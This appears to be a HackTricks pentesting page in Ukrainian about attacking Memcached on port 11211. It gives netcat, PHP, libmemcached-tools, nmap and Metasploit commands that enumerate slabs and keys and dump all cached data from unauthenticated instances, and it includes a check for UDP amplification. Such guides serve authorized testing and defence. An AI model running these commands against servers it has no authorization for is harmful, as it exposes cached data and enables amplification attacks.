 # 11211 - Pentesting Memcache

{{#include ../../banners/hacktricks-training.md}}

## Протокол Інформація

З [wikipedia](https://en.wikipedia.org/wiki/Memcached):

> **Memcached** (вимова: mem-cashed, mem-cash-dee) - це універсальна розподілена [система кешування пам'яті](https://en.wikipedia.org/wiki/Memory_caching). Вона часто використовується для прискорення динамічних веб-сайтів, що працюють з базами даних, шляхом кешування даних та об'єктів у RAM, щоб зменшити кількість разів, коли зовнішнє джерело даних (таке як база даних або API) повинно бути прочитане.

Хоча Memcached підтримує SASL, більшість екземплярів **виставлені без аутентифікації**.

**Порт за замовчуванням:** 11211
```
PORT      STATE SERVICE
11211/tcp open  unknown
```
## Enumeration

### Manual

Щоб ексфільтрувати всю інформацію, збережену в екземплярі memcache, вам потрібно:

1. Знайти **slabs** з **активними елементами**
2. Отримати **імена ключів** виявлених раніше slabs
3. Ексфільтрувати **збережені дані** шляхом **отримання імен ключів**

Пам'ятайте, що ця служба є лише **кешем**, тому **дані можуть з'являтися і зникати**.
```bash
echo "version" | nc -vn -w 1 <IP> 11211      #Get version
echo "stats" | nc -vn -w 1 <IP> 11211        #Get status
echo "stats slabs" | nc -vn -w 1 <IP> 11211  #Get slabs
echo "stats items" | nc -vn -w 1 <IP> 11211  #Get items of slabs with info
echo "stats cachedump <number> 0" | nc -vn -w 1 <IP> 11211  #Get key names (the 0 is for unlimited output size)
echo "get <item_name>" | nc -vn -w 1 <IP> 11211  #Get saved info

#This php will just dump the keys, you need to use "get <item_name> later"
sudo apt-get install php-memcached
php -r '$c = new Memcached(); $c->addServer("localhost", 11211); var_dump( $c->getAllKeys() );'
```
### Manual2
```bash
sudo apt install libmemcached-tools
memcstat --servers=127.0.0.1 #Get stats
memcdump --servers=127.0.0.1 #Get all items
memccat  --servers=127.0.0.1 <item1> <item2> <item3> #Get info inside the item(s)
```
### Автоматичний
```bash
nmap -n -sV --script memcached-info -p 11211 <IP>   #Just gather info
msf > use auxiliary/gather/memcached_extractor      #Extracts saved data
msf > use auxiliary/scanner/memcached/memcached_amp #Check is UDP DDoS amplification attack is possible
```
## **Вивантаження ключів Memcache**
